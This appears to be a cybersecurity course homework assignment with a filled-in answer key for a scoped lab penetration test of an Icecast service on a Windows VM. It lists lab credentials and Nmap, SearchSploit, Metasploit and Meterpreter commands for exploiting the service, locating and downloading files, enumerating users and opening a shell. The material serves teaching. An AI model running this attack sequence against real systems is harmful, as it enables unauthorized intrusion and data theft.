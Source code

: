 # Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.


- The CEO claims to have passwords that are long and complex and therefore unhackable.
- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings recipe and seceretfile.
- The deliverable for this engagement will be in the form of a report labeled Report.docx.

### Setup

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials IEUser:Passw0rd!) and wait for the Icecast application to popup.
  - Then click Start Server.




### Reminders


- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.

-  If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.


### Scope


- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.


- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited.


- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.


- Since you've already been provided access to the network, OSINT won't be necessary.

### Lab Environment
For this week's homework, please use the following VM setup:

- Attacking machine: Kali Linux root:toor

- Target machine: DVW10 IEUser:Passw0rd!


**NOTE:** You will need to login to the DVW10 VM and start the icecast service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit Enter.
- The icecast application will launch.
- Click on Start Server.
- You are now ready to being the activity.


### Deliverable
Once you complete this assignment, submit your findings in the following document:

[Report.docx]


### Instructions
You've been provided full access to the network and are getting ping responses from the CEO’s workstation.


1. Perform a service and version scan using Nmap to determine which services are up and running:

  - Run the Nmap command that performs a service and version scan against the target.
  
    > Answer: nmap -sV 192.168.0.20


2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
  - Run the SearchSploit commands to show available Icecast exploits.

    > Answer: searchsploit icecast


3. Now that we know which exploits are available to us, let's start Metasploit:
  - Run the command that starts Metasploit:

    > Answer: msfconsole


4. Search for the Icecast module and load it for use.
  - Run the command to search for the Icecast module:

    > Answer: search icecast



  - Run the command to use the Icecast module:
   **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

    > Answer: use 0





5. Set the RHOST to the target machine.


  - Run the command that sets the RHOST:

    > Answer: set RHOST 192.168.0.20





6. Run the Icecast exploit.
  - Run the command that runs the Icecast exploit.

    > Answer: exploit



  - Run the command that performs a search for the secretfile.txt on the target.

    > Answer: search -f *secretfile.txt


7. You should now have a Meterpreter session open.


  - Run the command to performs a search for the recipe.txt on the target:

    > Answer: search -f *recipe.txt



  - **Bonus:** Run the command that exfiltrates the recipe*.txt file:

    > Answer: download c:\Users\IEUser\Documents\Drinks.recipe.txt





8. You can also use Meterpreter's local exploit suggester to find possible exploits.


  - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.




### Bonus
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: run post/windows/gather/enum_logged_on_users

B. Open a Meterpreter shell.

  > Answer: shell

C. Run the command that displays the target's computer system information:

  > Answer: sysinfo
